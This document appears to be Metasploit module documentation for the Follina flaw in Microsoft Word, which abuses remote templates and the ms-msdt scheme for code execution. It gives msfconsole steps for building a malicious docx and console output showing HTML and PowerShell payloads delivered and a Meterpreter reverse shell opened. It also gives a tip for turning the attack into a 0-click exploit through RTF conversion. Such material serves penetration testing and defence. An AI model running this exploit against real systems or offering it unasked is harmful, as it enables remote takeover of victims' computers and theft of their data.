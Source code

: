 There exists a vulnerability in Microsoft Word that leverages the remote template feature to achieveremote code execution against the target.

The vulnerability came to light after an independent cybersecurity research team known as `nao_sec` uncovered a Word document ([05-2022-0438.doc](https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/)) that was uploaded to VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an `HTML` document and then uses the `ms-msdt` scheme to execute `PowerShell` code.

## Vulnerable Application

The vulnerability has been proved in Office 2013, 2016, 2019, 2021, Office ProPlus and Office 365. It also applies to Windows itself, e.g. it can be called from `.lnk` files and with `wget` into `PowerShell`.

The vulnerability appears exploitable using `.RTF` files on all versions of Office 365, including current channel.

However, with Insider and Current builds of Office, it doesn't seem to work.

### Make your lab

You need official version of Microsoft Office installed. And stay unpatched for this.

Tested on Microsoft Windows 10 1909 w/ Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CUSTOMTEMPLATE**

A DOCX file that will be used as a template to build the exploit.

**OBFUSCATE**

Obfuscate JavaScript content. Default: true

## Scenarios

### Basic use

1. Generate the exploit as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Open the DOCX document on a remote vulnerable system.

```
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

### The 0-Click tip

You can get the 0-click by converting, manually, the `.docx` file generated by the module into a `.rtf` file format.

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
  3. <https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/>
  4. <https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e>
  5. <https://twitter.com/GossiTheDog/status/1531608245009367040>
  6. <https://github.com/JMousqueton/PoC-CVE-2022-30190>
